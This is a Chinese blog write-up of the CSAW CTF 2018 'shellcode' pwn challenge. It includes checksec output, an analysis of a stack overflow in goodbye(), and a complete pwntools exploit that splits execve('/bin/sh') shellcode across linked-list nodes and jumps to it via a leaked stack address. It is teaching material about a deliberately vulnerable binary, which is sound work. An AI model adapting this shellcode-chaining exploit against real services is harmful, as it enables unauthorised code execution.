






<!--yml
category: 未分类
date: 2022-04-26 14:34:41
-->

# CSAWCTF-2018-pwn-shellcode 题解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/110350773](https://blog.csdn.net/A951860555/article/details/110350773)

## 知识点关键字

栈溢出，shellcode拆分+组装

## 样本

[shellcode样本下载](https://download.csdn.net/download/A951860555/13618669)
样本来自2018年CSAWCTF的pwn题目shellcode

## 运行

检查文件，发现有两个可以利用的点：
  栈溢出保护未开启；
  NX保护未开启，存在RWX段。

```
$ checksec CSAWCTF-2018-pwn
[*] '/home/fanxinli/pwnSample/CSAWCTF-2018/CSAWCTF-2018-pwn' 
    Arch:     amd64-64-little 
    RELRO:    Full RELRO 
    Stack:    No canary found 
    NX:       NX disabled 
    PIE:      PIE enabled 
    RWX:      Has RWX segments 
```

在linux下启动运行样本程序：
  从程序提示和运行结果可以看出，能够获取输入的地方分为三个节点段：node1、node2和initials部分；好像node.next为node1的下一个节点，且地址为node.next部分对应的输出，node.buffer处打印了node1节点的值。

```
$ ./CSAWCTF-2018-pwn
Linked lists are great! 
They let you chain pieces of data together. 

(15 bytes) Text for node 1: 
a 
(15 bytes) Text for node 2: 
b 
node1: 
node.next: 0x7ffc8306ec30 
node.buffer: a 

What are your initials? 
c 
Thanks c 
```

gdb调试：
  可以发现存在RWX段，且栈所在位置就是。


## 静态分析

main()


分析：
  一个puts函数打印内容，然后是nononode函数，没有明显的漏洞。

nononode() 和 readline()

分析：
  这里是主要功能的实现点，有v1、v2、v3、v4四个变量，v3是指针类型，指向v1，也就是说v3的值是v1的地址。
  nononode函数中使用了两次readline函数:
  在readline函数中，第一个函数getline的第一个参数为NULL，所以该函数会由操作系统分配一个最大的缓冲区，至少1024吧。所以这里有栈溢出，但由于开启了PIE保护，当程序运行到这里无法动态获得嵌入shellcode 的 地址，所以无法利用。在后面的分析中会看到程序会输出V1的地址，但当运行到这里时原来可以利用的地方内存又被覆盖过了。
  第二个函数strncpy很直接，复制将lineptr处a2长度的内容到a1位置的内存中，这里a2长度为15字节。
接下来看printNode函数。

printNode()

分析：
  printNode接受main函数中v3的地址作为参数，a1 = v3；
  %p 打印 *v3，也就是打印v3的值，即里面存储的v1的地址；
  %s 打印 v3 + 1，v3 + 1指向v4的地址，也就是打印v4地址的字符串。

goodbye()


分析：
  fgets函数接受32bytes的输入，而s在rbp-3h的地方，此处存在栈溢出！

关键函数栈帧图示


## 程序逻辑

  由于无法生成小于15字节的shellcode脚本来执行系统调用函数system("/bin/sh")，所以利用程序所给出的三个小节点分开存储shellcode然后链接起来运行，其中节点不连续需要使用跳转指令进行链接。

## 求解脚本

### 一些细节：

1、shellcode脚本本身需要注意“回车”和“空字符”的影响。
2、在本程序中使用了fgets和getline函数，会将结束符存入缓冲区，限制了输入长度，默认将最后一个字符替换为’\0’。
3、使用nop指令填充空白。
4、消除空白的影响：
  使用\x04\x00小技巧消除空字节影响；

```
opcode       asm  
04 00       add  al, 0x0 
```

5、将“/bin/sh"压到栈中时，最后一个字节是"\x00"，刚好作为读取字符串的停止符。

### wp_shellcode.py

```
from pwn import *

context(os="linux", arch="amd64", log_level="debug")
p = remote("127.0.0.1", "8888")

v1_sh_code = asm(

    """
    mov rbx, 0x68732f6e69622f
    nop
    """
)

v1_sh_code += b'\x04'

v2_sh_code = asm(
    """
    nop
    nop
    nop
    nop
    nop
    xor esi, esi
    add rsp, 0x28
    jmp rsp
    """
)

v4_sh_code = asm(
    """
    push rbx
    push rsp
    pop rdi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    """
)

p.recvuntil("node 1:  ")
p.sendline(v4_sh_code)
pause()

p.recvuntil("node 2: ")
p.sendline(v2_sh_code)
pause()

p.recvuntil("node.next: ")
v1_addr = int(p.recvuntil("\n", drop = True), base=16)
print("vi_addr: ", hex(v1_addr))
p.recv()
padding = b'a'*0x3 + b'b'*0x8
payload = padding + p64(v1_addr)+ v1_sh_code
p.send(payload)

p.interactive() 
```